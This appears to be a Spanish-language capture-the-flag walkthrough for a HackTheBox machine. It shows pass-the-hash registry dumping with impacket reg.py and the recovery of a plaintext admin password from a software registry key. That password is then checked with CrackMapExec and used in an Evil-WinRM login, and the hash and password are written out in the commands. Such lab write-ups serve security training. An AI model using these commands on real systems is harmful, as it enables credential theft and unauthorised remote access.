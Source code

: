 
### Dumpeo de registros desde la maquina local {-}

Los registros se pueden dumpear desde la maquina local. Es interessante siempre probar esto porque se puede encontrar informaciones de esta manera.
Los registros son:

- HKCR
- HKCU
- HKLM
- HKU
- HKCC
- HKPD

Utilizamos la heramienta **reg.py** de impacket para lograr esto.

```bash
impacket-reg.py -hashes :e53d87d42adaa3ca32bdb34a876cbffb htb.local/henry.vinson@apt query -keyName HKCR
impacket-reg.py -hashes :e53d87d42adaa3ca32bdb34a876cbffb htb.local/henry.vinson@apt query -keyName HKCU
impacket-reg.py -hashes :e53d87d42adaa3ca32bdb34a876cbffb htb.local/henry.vinson@apt query -keyName HKLM
impacket-reg.py -hashes :e53d87d42adaa3ca32bdb34a876cbffb htb.local/henry.vinson@apt query -keyName HKU
```


Aqui vemos informaciones interesantes, y miramos por lo que nos parece interesante

```bash
impacket-reg.py -hashes :e53d87d42adaa3ca32bdb34a876cbffb htb.local/henry.vinson@apt query -keyName HKU\\Software
impacket-reg.py -hashes :e53d87d42adaa3ca32bdb34a876cbffb htb.local/henry.vinson@apt query -keyName HKU\\Software\\GiganticHostingManagementSystem
```

Aqui encontramos usuario y contraseña para henry.vinson_adm. Verificamos las credenciales

```bash
pushd /opt/CrackMapExec
poetry run crackmapexec smb dead:beef::b885:d62a:d679:573f -u 'henry.vinson_adm' -p 'G1#Ny5@2dvht'
```

Es valida y intentamos connectarnos con Evil-WinRM
## Vuln exploit & Gaining Access {-}

### WinRM {-}

```bash
gem install evil-winrm
evil-winrm -i apt -u 'henry.vinson_adm' -p 'G1#Ny5@2dvht'
```

Nos conectamos y podemos leer la flag.


